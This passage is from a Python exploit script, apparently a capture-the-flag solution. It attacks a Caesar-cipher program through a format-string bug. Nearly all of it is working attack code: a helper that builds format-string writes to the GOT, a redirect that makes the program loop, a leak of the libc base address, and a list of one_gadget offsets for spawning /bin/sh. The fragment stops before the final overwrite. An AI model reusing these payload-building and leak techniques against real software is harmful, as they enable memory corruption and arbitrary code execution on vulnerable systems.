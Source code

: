 ```python
    if c > 64 and c <= 90:
      out += chr((shift+c-65)%26+65)
    elif c > 96 and c <= 122:
      out += chr((shift+c-97)%26+97)
    else:
      out += chr(c)

  return out

def fmt_str(location, target, offset=0, padding=0x30):
  offset += padding//8
  payload = '%{}x'.format((target>>(8*0))&0xffff)
  payload += '%{}$hn'.format(offset)
  payload += '%{}x'.format((0x10000-((target>>(8*0))&0xffff))+((target>>(8*2))&0xffff))
  payload += '%{}$hn'.format(offset+1)
  payload += '%{}x'.format((0x10000-((target>>(8*2))&0xffff))+((target>>(8*4))&0xffff))
  payload += '%{}$hn'.format(offset+2)
  payload += '%{}x'.format((0x10000-((target>>(8*4))&0xffff))+((target>>(8*6))&0xffff))
  payload += '%{}$hn'.format(offset+3)

  payload = payload.ljust(padding, 'a')
  payload += p64(location)
  payload += p64(location+2)
  payload += p64(location+4)
  payload += p64(location+6)

  return payload

send = lambda payload: [sh.sendlineafter(': ', shift(payload)), sh.sendlineafter(': ', '13'), sh.recvuntil(': ')]

puts_got = 0x0000000000404018
printf_got = 0x0000000000404038
fgets_got = 0x0000000000404040
caesar_addr = 0x401196

# make it loop
payload = fmt_str(puts_got, caesar_addr, 24, 0x40)
send(payload)

# leak libc_base
payload = '%25$s'.ljust(8,' ')+p64(fgets_got)
send(payload)

libc_base = u64(sh.recv(6).ljust(8,'\x00'))-0x06dad0
print 'libc_base: '+hex(libc_base)

# one_gadget and profit
# 0x45216 execve("/bin/sh", rsp+0x30, environ)
# constraints:
#   rax == NULL

# 0x4526a execve("/bin/sh", rsp+0x30, environ)
# constraints:
#   [rsp+0x30] == NULL

# 0xf02a4 execve("/bin/sh", rsp+0x50, environ)
# constraints:
#   [rsp+0x50] == NULL

# 0xf1147 execve("/bin/sh", rsp+0x70, environ)
# constraints:
#   [rsp+0x70] == NULL
```